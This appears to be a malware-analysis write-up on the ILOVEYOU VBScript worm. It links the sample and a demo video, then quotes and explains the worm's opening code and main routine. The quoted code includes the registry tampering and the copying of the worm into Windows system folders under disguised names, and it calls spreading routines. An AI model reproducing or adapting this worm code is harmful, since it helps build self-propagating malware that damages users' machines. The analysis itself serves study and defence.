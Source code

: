 You can download the Sample from [VirusShare](https://virusshare.com/file?aa54181c8592c0fc9a110bc22c7685cdf2052e9eaedf2632c35214e7516d8266) and view the Virustotal report from [here](https://www.virustotal.com/gui/file/aa54181c8592c0fc9a110bc22c7685cdf2052e9eaedf2632c35214e7516d8266/detection). On Virustotal, out of 46, 41 vendors reported it malicious.


You can see the script running and its effect in the below video, click on the picture to move to youtube.

[![utube video](https://img.youtube.com/vi/ZqkFfF5kAvw/hqdefault.jpg)](https://www.youtube.com/watch?v=ZqkFfF5kAvw)

Open the script in any text editor like Notepad++. It first creates a object using CreateObject with argument "Scritping.FileSystemObject" which provides access to a computer's file system. Then it uses OpenTextFile to open the currently running VBScript file in read mode. It reads the entire content of the file using Read.all. Then it calls main function.

```vbs
On Error Resume Next
dim fso,dirsystem,dirwin,dirtemp,eq,ctr,file,vbscopy,dow
eq=""
ctr=0
Set fso = CreateObject("Scripting.FileSystemObject")
set file = fso.OpenTextFile(WScript.ScriptFullname,1)
vbscopy=file.ReadAll
main()
```

> It uses "On Error Resume Next" in every function and subroutine.

Let's analyse functions and subroutines one by one.

### main

```vbs
sub main()
On Error Resume Next
dim wscr,rr
set wscr=CreateObject("WScript.Shell")
rr=wscr.RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout")
if (rr>=1) then
wscr.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout",0,"REG_DWORD"
end if
Set dirwin = fso.GetSpecialFolder(0)
Set dirsystem = fso.GetSpecialFolder(1)
Set dirtemp = fso.GetSpecialFolder(2)
Set c = fso.GetFile(WScript.ScriptFullName)
c.Copy(dirsystem&"\MSKernel32.vbs")
c.Copy(dirwin&"\Win32DLL.vbs")
c.Copy(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs")
regruns()
html()
spreadtoemail()
listadriv()
end sub
```
